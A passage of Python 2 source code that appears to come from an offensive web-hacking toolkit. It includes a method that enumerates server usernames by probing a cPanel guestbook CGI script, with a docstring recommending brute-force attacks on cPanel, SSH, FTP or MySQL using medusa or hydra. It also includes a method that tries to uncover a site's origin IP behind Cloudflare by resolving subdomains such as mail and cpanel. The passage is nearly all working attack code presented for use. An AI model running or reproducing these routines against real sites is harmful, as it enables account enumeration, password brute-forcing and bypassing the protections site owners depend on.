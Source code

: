                             if re.findall('type=file', line):
                                print " [*] Found upload -> ", site + up
                except IOError:
                    pass

    def getUsers(self):
        """
        get server users using a method found by
        iranian hackers , the attacker may
        do a bruteforce attack on CPanel, ssh, ftp or
        even mysql if it supports remote login
        (you can use medusa or hydra)
        """
        clearScr()
        print "[~] Grabbing Users"
        userslist = []
        for site1 in self.sites:
            try:
                site = site1
                site = site.replace('http://www.', '')
                site = site.replace('http://', '')
                site = site.replace('.', '')
                if '-' in site:
                    site = site.replace('-', '')
                site = site.replace('/', '')
                while len(site) > 2:
                    resp = urllib2.urlopen(
                        site1 + '/cgi-sys/guestbook.cgi?user=%s' % site).read()
                    if 'invalid username' not in resp.lower():
                        print '\t [*] Found -> ', site
                        userslist.append(site)
                        break
                    else:
                        print site

                    site = site[:-1]
            except:
                pass

        clearScr()
        for user in userslist:
            print user

    def cloudflareBypasser(self):
        """
        trys to bypass cloudflare i already wrote
        in my blog how it works, i learned this
        method from a guy in madleets
        """
        clearScr()
        print "[~] Bypassing cloudflare"
        subdoms = ['mail', 'webmail', 'ftp', 'direct', 'cpanel']
        for site in self.sites:
            site.replace('http://', '')
            site.replace('/', '')
            try:
                ip = socket.gethostbyname(site)
            except socket.error:
                pass
            for sub in subdoms:
                doo = sub + '.' + site
                print ' [~] Trying -> ', doo
                try:
                    ddd = socket.gethostbyname(doo)
                    if ddd != ip: